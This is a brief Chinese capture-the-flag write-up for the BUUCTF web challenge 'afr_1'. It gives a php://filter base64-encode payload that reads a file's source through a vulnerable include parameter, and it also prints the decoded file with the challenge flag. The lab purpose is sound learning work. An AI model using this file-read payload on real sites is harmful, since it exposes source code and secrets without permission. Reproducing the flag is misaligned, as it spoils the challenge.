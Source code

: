 ```yaml
---
title: 02afr_1
description: 
published: 1
date: 2023-06-09T10:17:25.656Z
tags: 
editor: markdown
dateCreated: 2023-05-22T10:38:55.685Z
---
```


<center>afr_1</center>





[toc]





## afr_1

> [afr_1](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%80%E7%AB%A0%20web%E5%85%A5%E9%97%A8]afr_1)也是php伪协议的题目





### 1.payload

> 可以去看上一题

```shell
?p=php://filter/read=convert.base64-encode/resource=flag
```

```js
// 解码
<?php
die('no no no');
//n1book{afr_1_solved}
```

